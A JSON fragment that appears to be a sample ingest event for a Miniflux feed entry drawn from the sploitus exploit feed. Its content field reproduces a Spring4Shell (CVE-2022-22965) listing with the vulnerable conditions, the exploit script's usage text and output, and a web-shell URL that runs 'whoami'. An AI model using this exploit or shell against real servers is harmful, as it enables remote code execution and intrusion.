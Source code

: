 ```json
        "id": "ba6fa1eb-0b15-4523-83b2-12b2b68add1c",
        "snapshot": false,
        "version": "8.18.0"
    },
    "event": {
        "agent_id_status": "verified",
        "category": [
            "web"
        ],
        "dataset": "miniflux.feed_entry",
        "ingested": "2025-05-13T01:30:59Z",
        "kind": "enrichment",
        "type": [
            "info"
        ]
    },
    "input": {
        "type": "cel"
    },
    "miniflux": {
        "changed_at": "2023-09-02T20:30:13.118Z",
        "content": "<p></p>\n\n<h1>Exploit for Code Injection in Vmware Spring Framework CVE-2022-22965</h1>\n<p>2023-09-02 | CVSS 7.5 </p>\n\n\n\n\n\nCopy\nDownload\nSource\n<a href=\"#share-url\">Share</a>\n\n<pre><code>## https://sploitus.com/exploit?id=5C9561BE-D9BB-58D0-8E51-09DDD257BC72\n# Spring4Shell: CVE-2022-22965 RCE\n\n## Java Spring framework RCE vulnerability\nThese vulnerabilities affects a component &#34;Spring Core&#34; —  the heart of the framework \n\n**Current conditions for vulnerability:-**\n\n- JDK 9+\n- A vulnerable version of the Spring Framework (&lt;5.2 | 5.2.0-19 | 5.3.0-17)\n- Apache Tomcat as a server for the Spring application, packaged as a WAR\n- A dependency on the spring-webmvc and/or spring-webflux components of the Spring Framework\n\n## The exploit\n\n```python\nuser@attacker:~$ ./exploit.py --help\nusage: exploit.py [-h] [-f FILENAME] [-p PASSWORD] [-d DIRECTORY] url\n\nSpring4Shell RCE Proof of Concept\n\npositional arguments:\n  url                   Target URL\n\noptional arguments:\n  -h, --help            show this help message and exit\n  -f FILENAME, --filename FILENAME\n                        Name of the file to upload (Default tomcatwar.jsp)\n  -p PASSWORD, --password PASSWORD\n                        Password to protect the shell with (Default: thm)\n  -d DIRECTORY, --directory DIRECTORY\n                        The upload path for the file (Default: ROOT)\n```\n\n```python\nuser@attacker:~$ ./exploit.py http://MACHINE_IP/\nShell Uploaded Successfully!\n\n\n# OUTPUT= Your shell can be found at: http://MACHINE_IP/tomcatwar.jsp?pwd=thm&amp;cmd=whoami\n```</code> </pre>\n\n",
        "created_at": "2023-09-02T20:17:02.689Z",
        "feed": {
            "allow_self_signed_certificates": false,
            "category": {
                "hide_globally": false,
                "id": 25000,
                "title": "2-Production",
                "user_id": 4426
            },
            "checked_at": "2025-05-02T12:25:58.524Z",
            "crawler": true,
            "disable_http2": false,
            "disabled": false,
            "feed_url": "https://sploitus.com/rss",
            "fetch_via_proxy": false,
            "hide_globally": false,
            "icon": {
                "external_icon_id": "dadd95d716e12dbdc58fabdd0f38f48e8d7eab88",
                "feed_id": 355593,
                "icon_id": 60476
            },
            "id": 355593,
            "ignore_http_cache": false,
            "next_check_at": "0001-01-01T00:00:00.000Z",
            "no_media_player": false,
```